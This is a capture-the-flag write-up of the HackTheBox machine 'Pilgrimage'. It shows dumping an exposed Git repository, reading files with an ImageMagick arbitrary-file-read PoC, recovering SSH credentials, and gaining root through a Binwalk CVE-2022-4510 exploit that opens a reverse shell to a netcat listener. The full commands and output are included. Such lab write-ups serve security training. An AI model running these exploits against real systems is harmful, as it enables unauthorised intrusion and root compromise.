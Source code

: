 ```yaml
---
title: "Pilgrimage"
date: 2023-07-13 17:02:00 +0800
categories: [Writeups, HackTheBox]
tags: [cve, cve-2022-4510, sqlite, imagemagick, pspy]
image:
  path: /banners/pilgrimage.png
---
```


> Description : Pilgrimage is an easy-difficulty Linux machine featuring a web application with an exposed `Git` repository. Analysing the underlying filesystem and source code reveals the use of a vulnerable version of `ImageMagick`, which can be used to read arbitrary files on the target by embedding a malicious `tEXT` chunk into a PNG image. The vulnerability is leveraged to obtain a `SQLite` database file containing a plaintext password that can be used to SSH into the machine. Enumeration of the running processes reveals a `Bash` script executed by `root` that calls a vulnerable version of the `Binwalk` binary. By creating another malicious PNG, `CVE-2022-4510` is leveraged to obtain Remote Code Execution (RCE) as `root`.
{: .prompt-info }


# Enum

Let's start with a quick Nmap scan.

### Nmap Scan

```bash
root@Fs:.../HTB/Pilgrimage# nmap -p- -oN Nmap -sCV -T4 pilgrimage.htb 
# Nmap 7.80 scan initiated Sun Jun 25 16:17:30 2023 as: nmap -p- -oN Nmap -sCV -T4 pilgrimage.htb
Nmap scan report for pilgrimage.htb (10.10.11.219)
Host is up (0.34s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-git: 
|   10.10.11.219:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Pilgrimage image shrinking service initial commit. # Please ...
|_http-server-header: nginx/1.18.0
|_http-title: Pilgrimage - Shrink Your Images
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 25 16:21:47 2023 -- 1 IP address (1 host up) scanned in 256.71 seconds
```

Let's check what's running on port 80.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/17d81c17-c872-440d-b3e8-d94e01776e80)

It seems to be an upload server, Let's try uploading something;

![image](https://github.com/ACHUX21/Writeups/assets/130113878/a336d714-72c4-46a3-a3a6-c350a1b28554)


By reading the Nmap scan, we realized that there's a .git/ directory.
Let's try to dump its contents.

```bash
git-dumper http://pilgrimage.htb/ git/
```

```bash
root@Fs:.../HTB/Pilgrimage# ls git/
assets  dashboard.php  index.php  login.php  logout.php  magick  register.php  vendor
```
By reading the contents of those files, we found some interesting information.
It appears that it's using SQLite as the database.

![image](https://github.com/ACHUX21/Writeups/assets/130113878/0d63c601-be8e-4074-8e57-6efe1e773736)


![image](https://github.com/ACHUX21/Writeups/assets/130113878/727f3288-669e-441c-b466-4c3d51edac78)

It's using ImageMagick to convert images.

By conducting a Google search, I found a [! CVE-2022-44268](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) (Common Vulnerabilities and Exposures) related to the discovered vulnerability.

let's try This POC

We have already identified the location where the DB stores data: "/var/db/pilgrimage".

Let's try to access this file.

```bash
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# python3 generate.py  -f "/var/db/pilgrimage" -o exploit.png

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /var/db/pilgrimage
   [>] PoC PNG generated > exploit.png
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# convert exploit.png result.png
```
Download Time:

```bash
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# wget http://pilgrimage.htb/shrunk/64af576f46ee8.png
--2023-07-13 02:46:53--  http://pilgrimage.htb/shrunk/64af576f46ee8.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.10.11.219
Connecting to pilgrimage.htb (pilgrimage.htb)|10.10.11.219|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1628 (1.6K) [image/png]
Saving to: ‘64af576f46ee8.png’

64af576f46ee8.png                     100%[========================================================================>]   1.59K  --.-KB/s    in 0s      

2023-07-13 02:46:54 (205 MB/s) - ‘64af576f46ee8.png’ saved [1628/1628]

root@Fs:.../Pilgrimage/imagemagick-lfi-poc# convert 64af576f46ee8.png result.png
root@Fs:.../Pilgrimage/imagemagick-lfi-poc# identify -verbose result.png 
[output...]
```

Let's copy the "Raw profile type: " string and decode it using CyberChef.

From Hex;
![image](https://github.com/ACHUX21/Writeups/assets/130113878/6d9921f5-934c-4328-984e-1b34a93e5c39)

Let's Download the sqlite file
![image](https://github.com/ACHUX21/Writeups/assets/130113878/e4380801-0d68-4c84-b768-1710c9f1f2da)


Let's log in via SSH using those credentials.
![image](https://github.com/ACHUX21/Writeups/assets/130113878/02bd70c4-39d2-4bff-b2b9-160e853cfd00)

And we have successfully gained access .

# Priv-esc

```bash
emily@pilgrimage:~$ ls
linPEAS.sh  pspy64  user.txt
```

Let's run pspy64 first, followed by Linpeas, and hope to gather some valuable information.

After 10 years HAAHAH, we finally discovered some interesting findings.

```toml
2023/07/13 12:06:18 CMD: UID=0     PID=713    | /bin/bash /usr/sbin/malwarescan.sh
```
The content:

![image](https://github.com/ACHUX21/Writeups/assets/130113878/7dedbc7c-8cb4-41bd-adb3-cb2e889daecf)


I wasted a lot of time before realizing that Binwalk is outdated and has a CVE !! [Binwalk v2.3.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/51249)

Let's utilize the ExploitDB script to gain root access

```bash

root@Fs:.../Pilgrimage/privesc# python3 exploit.py random-image.png 10.10.14.xxx 9999

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.

root@Fs:.../Pilgrimage/privesc# scp binwalk_exploit.png emily@10.10.11.219:/var/www/pilgrimage.htb/shrunk/
emily@10.10.11.219's password: 
bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
binwalk_exploit.png                                                                                                  100% 1084     3.4KB/s   00:00    

```


and we have access
```bash
root@Fs:.../Pilgrimage/privesc# nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.11.219 46362
ls
_binwalk_exploit.png.extracted
_e.png.extracted
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
[1]+  Stopped                 nc -lnvp 9999
root@Fs:.../Pilgrimage/privesc# stty raw -echo;fg
nc -lnvp 9999
             root@pilgrimage:~/quarantine# export TERM=xterm-256color
root@pilgrimage:~/quarantine# export SHELL=/bin/bash
root@pilgrimage:~/quarantine# ls
_binwalk_exploit.png.extracted	_e.png.extracted
root@pilgrimage:~/quarantine# ls /root
quarantine  reset.sh  root.txt
root@pilgrimage:~/quarantine# 
```

Goodbye! 💜

